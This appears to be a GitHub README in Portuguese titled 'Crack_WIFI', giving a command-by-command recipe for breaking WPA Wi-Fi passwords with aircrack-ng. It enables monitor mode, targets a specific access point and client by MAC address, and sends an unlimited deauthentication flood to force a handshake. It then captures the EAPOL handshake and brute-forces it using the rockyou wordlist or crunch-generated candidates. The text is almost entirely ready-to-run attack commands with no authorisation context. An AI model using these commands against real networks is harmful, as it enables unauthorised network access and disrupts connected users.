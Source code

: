 # Crack_WIFI
Crack_WIFI <br>
 <br>
airmon-ng check wlan0  <br>
airmon-ng check kill  <br>
airmon-ng start wlan0  <br>
airodump-ng wlan0 -a --band abg  <br>
airodump-ng -c 11 -d E4:C0:E2:1C:6E:6B -a --band abg wlan0  <br>
airodump-ng -c 11 -d E4:C0:E2:1C:6E:6B -a --band abg -w captura wlan0  <br>
aireplay-ng --deauth 0 -a E4:C0:E2:1C:6E:6B -c 28:87:BA:3A:AF:CF wlan0  <br><br>
<b> APENAS DEPOIS DE APARECER NO CAMPO NOTES EAPOL, PARA PODER PARAR A CAPTURA  </b> <br><br>
![IMAGE01](https://github.com/fernandomxm/Crack_WIFI/blob/main/image01.png) 
![IMAGE02](https://github.com/fernandomxm/Crack_WIFI/blob/main/wpa-4-way-handshake-workflow.png) <br> <br>
PODE SER UTILIZADO: wpaclean, para gerar o arquivo .cap "LIMPO", apenas com EAPOL KEY: <br>
<b>wpaclean clean.cap captura.cap</b>  <br><br>
<b> aircrack-ng -w /usr/share/wordlists/rockyou.txt -b E4:C0:E2:1C:6E:6B clean.cap  </b> <br>
<br>
Pode ser utilizada uma automatização com o crunch (On-the-Fly Wordlist Generation): <br> <br>
<b> crunch 8 10 -f /usr/share/crunch/charset.lst mixalpha | aircrack-ng -b E4:C0:E2:1C:6E:6B -w - clean.cap </b> <br> <br>
Dessa forma, ele ira gerar uma lista gigante de de teste, sem consumir espaço em disco. <br>
Para gerar a wordlist pode ser usado o: <br>
crunch 8 10 -f /usr/share/crunch/charset.lst mixalpha -o wordlist.txt <br>
<br>
O parâmetro PWR é o sinal WIFI. Quando mais perto de 0, melhor o sinal.  <br>
